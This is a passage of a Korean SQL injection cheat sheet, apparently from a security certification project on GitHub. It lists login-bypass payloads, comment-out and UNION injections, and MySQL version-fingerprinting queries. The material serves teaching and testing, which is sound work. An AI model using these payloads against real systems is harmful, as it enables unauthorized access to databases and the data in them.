 예 :<br>
`SELECT * FROM Users WHERE id = 3-2;`<br><br>

노트 :<br>
참은 1 과 같음.<br>
거짓은 0 과 같음.<br><br>

**③ 로그인**<br><br>

주어진 쿼리 `SELECT * FROM Table WHERE username = '';`<br><br>

`' OR '1`<br>
`' OR 1 -- -`<br>
`" OR "" = "`<br>
`" OR 1 = 1 -- -`<br>
`'='`<br>
`'LIKE'`<br>
`'=0--+`<br><br>

예 :<br>
`SELECT * FROM Users WHERE username = 'Mike' AND password = '' OR '' = '';`<br><br><br>



## (3) 코멘트 아웃 쿼리(Comment Out Query)

여기서 코멘트 아웃(Comment Out)이란 디버그에서 자주 사용되는 방법으로 코멘트를 지시하는 문을 삽입하여 프로그램이나 명령어 집합의 일부를 일시적으로 사용하지 않는 것을 말함.

![스크린샷 2024-04-17 오후 2 05 54](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/930f2e11-de95-4438-b734-4ca289aac282)<br><br>


예 :<br>
`SELECT * FROM Users WHERE username = '' OR 1=1 -- -' AND password = '';`<br>
`SELECT * FROM Users WHERE id = '' UNION SELECT 1, 2, 3`';`<br><br>

노트 :<br>
별칭으로 사용할 때 Backtick 연산자(`)는 쿼리를 종료할 때만 사용할 수 있음.<br><br><br>



## (4) 버전 테스팅

**① 변수**<br><br>

`VERSION()`<br>
`@@VERSION`<br>
`@@GLOBAL.VERSION`<br><br>

예 :<br>
`SELECT * FROM Users WHERE id = '1' AND MID(VERSION(),1,1) = '5';`<br><br>

노트 :<br>
DBMS 가 윈도우 기반 시스템에서 실행되는 경우 결과값에는 -nt-log 가 포함됨.<br>
@@GLOBAL 는 글로벌 변수를 의미하며 글로벌 변수 지정은 슈퍼 권한이 있어야 함.<br><br>

**② 특정 코드**<br><br>
